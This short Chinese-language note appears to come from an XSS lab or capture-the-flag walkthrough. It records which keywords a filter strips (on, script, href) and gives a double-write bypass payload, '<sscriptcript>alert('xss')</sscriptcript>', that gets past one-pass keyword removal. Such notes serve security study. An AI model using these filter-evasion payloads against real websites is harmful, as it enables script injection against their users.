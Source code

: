 测试

```
onfocus <script> <a href=javascript:alert('xss');>
```



得到

```
focus <> <a =java:alert('xss');>
```

on  script   href  都被过了成空白了。



双写绕过

```
">  <sscriptcript>alert('xss')</sscriptcript> <"
```

